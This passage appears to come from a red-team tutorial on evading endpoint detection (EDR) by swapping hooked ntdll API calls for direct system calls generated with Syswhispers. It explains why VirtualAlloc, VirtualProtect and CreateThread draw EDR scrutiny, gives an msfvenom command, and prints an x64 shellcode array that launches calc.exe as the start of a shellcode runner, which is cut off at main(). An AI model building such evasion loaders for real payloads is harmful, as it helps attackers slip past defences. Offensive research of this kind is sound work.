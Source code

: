 ```cmd
 36C InitializeSListHead
 2F0 GetSystemTimeAsFileTime
 222 GetCurrentThreadId
 21E GetCurrentProcessId
 450 QueryPerformanceCounter
 389 IsProcessorFeaturePresent
 4D3 RtlCaptureContext
```

Three imports stand out in relation to possible malicious shellcode execution: VirtualAlloc, VirtualProtect, CreateThread. Many EDRs will pay specific attention to the combination of these WinAPI calls as they are commonly used for nefarious purposes (though not always).


## Syswhispers

The Syswhispers tool was released by jthuraisamy "for red teamers to generate header/ASM pairs for any system call in the core kernel image (ntoskrnl.exe) across any Windows version starting from XP"

What this means is that we no longer need to rely on API calls available in ntdll.dll, which are often hooked by EDRs. Instead, we can use the generated header/ASM pairs to perform the relevant system calls directly.

We will first need to figure out which API calls we want to replace, then next figure out the arguments to provide for these (often) undocumented functions.

Since the executable generated by the artifact kit doesn't function on its own (we need CobaltStrike to replace the 1024 A's with shellcode), let's create a simple standalone executable that will use the same APIs as the ones we will be replacing with syscalls in the final product. This will allow us to do some debugging and will generally make our lives easier. It also avoids any possible CobaltStrike licensing issues by not disclosing the artifact kit source code.
The shellcode below was generated with msfvenom. Since you probably shouldn't run any shellcode on your system without verifying what it does, you can generate your own with the following command:
`msfvenom -p windows/x64/exec -f c CMD=calc.exe -a x64`

Sample program code:

```c++
#include <iostream>
#include <Windows.h>


unsigned char calc_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
"\x63\x2e\x65\x78\x65\x00";
unsigned int calc_len = 276;


int main()
```